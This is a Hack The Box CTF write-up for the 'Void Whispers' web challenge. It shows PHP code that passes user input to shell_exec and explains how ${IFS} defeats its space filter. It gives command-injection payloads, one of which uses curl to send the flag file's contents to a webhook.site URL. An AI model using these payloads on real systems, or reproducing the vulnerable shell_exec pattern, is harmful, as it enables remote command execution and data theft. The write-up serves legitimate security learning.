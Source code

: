 ```yaml
---
title: Void Whispers - Hack The Box
date: 2024-12-11
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Void Whispers 🎃

## Challenge description

In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void. A
phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows. The townsfolk
remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message
back could reveal hidden secrets. Can you tap into the darkness, craft the perfect unseen command, and shut down the
malevolent force before it plunges the world into chaos?

## Challenge overview

The challenge involves a web application that provides an interface to configure email settings. By exploiting
vulnerabilities in the configuration functionality, we can gain unauthorized access to sensitive data.

![Void Whispers - Overview](/ctf/hack-the-box/challenges/web/void-whispers/overview.png)

## Code review

### `IndexController.php`

The `updateSetting` function handles updates to email configurations. It validates the `sendMailPath` parameter to
ensure no spaces are present and verifies the binary's existence using the `which` command. If validation passes, the
function updates the configuration file.

```php
public function updateSetting($router)
{
    $from = $_POST['from'];
    $mailProgram = $_POST['mailProgram'];
    $sendMailPath = $_POST['sendMailPath'];
    $email = $_POST['email'];
    if (empty($from) || empty($mailProgram) || empty($sendMailPath) || empty($email)) {
        return $router->jsonify(['message' => 'All fields required!', 'status' => 'danger'], 400);
    }

    if (preg_match('/\s/', $sendMailPath)) { // [!code focus]
        return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
    }

    $whichOutput = shell_exec("which $sendMailPath"); // [!code focus]
    if (empty($whichOutput)) {
        return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
    }

    $this->config['from'] = $from;
    $this->config['mailProgram'] = $mailProgram;
    $this->config['sendMailPath'] = $sendMailPath;
    $this->config['email'] = $email;

    file_put_contents($this->configFile, json_encode($this->config));

    return $router->jsonify(['message' => 'Config updated successfully!', 'status' => 'success'], 200);
}
```

**Vulnerabilities Identified**

1. Space Validation Bypass
   The `preg_match('/\s/', $sendMailPath)` validation can be bypassed using `${IFS}`, a shell variable representing a
   space character.

2. Command Injection
   The `shell_exec("which $sendMailPath")` function directly executes shell commands without sanitization. Injecting
   commands into the `sendMailPath` parameter allows arbitrary command execution.

## Exploitation

### Step 1: Space Validation Bypass

To bypass the `preg_match` validation for spaces, we use `${IFS}` (Internal Field Separator) to represent spaces. For
example:

```bash
/usr/sbin/sendmail;${IFS}whoami
```

This payload bypasses the space check and allows command injection.

### Step 2: Command Injection

Using the command injection vulnerability, we can craft a payload to execute arbitrary commands. For instance, to
retrieve the flag:

```bash
/usr/sbin/sendmail;curl${IFS}https://webhook.site/your-webhook-url?flag=$(cat${IFS}/flag.txt)
```

::: info **Explanation of Payload**:

- `/usr/sbin/sendmail`: A valid command to pass initial validation.
- `;`: Ends the first command and starts a new one.
- `curl${IFS}https://webhook.site/your-webhook-url?flag=`: Sends an HTTP request with the flag content.
- `$(cat${IFS}/flag.txt)`: Reads the `flag.txt` file and appends its content to the `flag` parameter.

:::

### Step 3: Sending the Exploit

Set the `sendMailPath` parameter to the crafted payload and send the form. The application will execute the payload,
sending the flag to the specified WebHook.

### Step 4: Retrieving the Flag

Monitor your WebHook for incoming requests. The flag will appear in the request URL:

```bash
https://webhook.site/5ae0b38c-d624-49c7-8c83-eb3b56728f18?flag=HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="Void Whispers"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/808"
/>

## References

- [Filter Evasion in a REVERSE SHELL (no spaces!!) - John Hammond](https://www.youtube.com/watch?v=mEGnhfOX-xs)
- [WebHook.site](https://webhook.site/)
